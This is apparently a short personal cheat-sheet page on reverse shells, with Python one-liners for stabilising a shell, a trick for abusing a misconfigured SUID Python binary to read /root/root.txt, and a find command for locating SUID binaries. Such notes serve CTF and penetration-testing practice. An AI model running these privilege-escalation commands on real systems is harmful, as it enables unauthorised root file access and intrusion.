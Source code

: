 ```yaml
---
layout: default
title: "shells"
permalink: /shells/
---
```

# reverse shells

## stabilisation

>```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
followed by
```bash
python3 -c 'import os; os.system("/bin/bash")'
```
(shell still terminates with `Ctrl+C`)

```
The pty module defines operations for handling the pseudo-terminal concept: starting another process
and being able to write to and read from its controlling terminal programmatically.
```

## suids
If suid of python is misconfigured:

>/usr/bin/python : -rwsr-sr-x

can use
>```bash
$ python -c 'print(1+1)'
2
```
```bash
$ python -c 'print(open("/root/root.txt").read())'
```


finding such SUIDs

>```bash
find / -perm /4000 2>dev/null
```


